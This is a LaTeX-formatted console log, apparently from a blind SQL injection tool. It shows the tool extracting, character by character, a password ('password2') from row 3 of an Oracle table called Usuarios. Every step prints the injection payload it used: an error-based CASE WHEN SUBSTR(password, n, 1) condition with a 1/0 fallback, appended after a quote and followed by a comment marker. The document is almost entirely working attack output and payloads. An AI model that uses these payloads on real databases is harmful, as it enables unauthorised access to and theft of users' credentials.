 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[style=console, basicstyle=\ttfamily\footnotesize]
 [+] Extrayendo carácter 6 de 9 para la fila 3...
 OK Carácter 6: 'o' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 6, 1) = 'o') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 7 de 9 para la fila 3...
 OK Carácter 7: 'r' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 7, 1) = 'r') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 8 de 9 para la fila 3...
 OK Carácter 8: 'd' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 8, 1) = 'd') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 
 [+] Extrayendo carácter 9 de 9 para la fila 3...
 OK Carácter 9: '2' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 9, 1) = '2') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=3) = 1 --
 [+] Valor extraído para la fila 3: password2
 
 [+] Extrayendo datos para la fila 4...
 

\end{lstlisting}
\end{document}
